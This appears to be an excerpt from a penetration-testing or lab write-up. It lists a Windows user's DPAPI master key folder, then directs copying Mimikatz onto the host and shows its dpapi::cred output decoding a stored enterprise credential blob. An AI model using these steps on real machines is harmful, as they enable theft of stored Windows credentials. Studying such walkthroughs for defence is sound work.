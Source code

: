 ```markdown
> dir /a %appdata%\microsoft\protect

 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of c:\users\ppotts\appdata\roaming\microsoft\protect

05/04/2023  09:58 AM    <DIR>          .
01/18/2024  09:34 AM    <DIR>          ..
05/02/2023  03:13 PM                24 CREDHIST
01/17/2024  03:43 PM    <DIR>          S-1-5-21-1199398058-4196589450-691661856-1107
01/17/2024  04:06 PM                76 SYNCHIST
               2 File(s)            100 bytes
               3 Dir(s)   3,185,594,368 bytes free

> dir /a c:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107

 Volume in drive C has no label.
 Volume Serial Number is C626-9388

 Directory of c:\users\ppotts\appdata\roaming\microsoft\protect\S-1-5-21-1199398058-4196589450-691661856-1107

01/17/2024  03:43 PM    <DIR>          .
05/04/2023  09:58 AM    <DIR>          ..
01/17/2024  03:43 PM               740 10811601-0fa9-43c2-97e5-9bef8471fc7d
05/02/2023  03:13 PM               740 191d3f9d-7959-4b4d-a520-a444853c47eb
05/02/2023  03:13 PM               900 BK-OFFICE
01/17/2024  03:43 PM                24 Preferred
               4 File(s)          2,404 bytes
               2 Dir(s)   3,184,939,008 bytes free
```
Transfer a copy of Mimikatz to the host and enumerate the credentials files. We will focus on this file in particular.
```markdown
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

dpapi::cred /in:%appdata%\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {191d3f9d-7959-4b4d-a520-a444853c47eb}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : 649c4466d5d647dd2c595f4e43fb7e1d
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : 32e88dfd1927fdef0ede5abf2c024e3a
```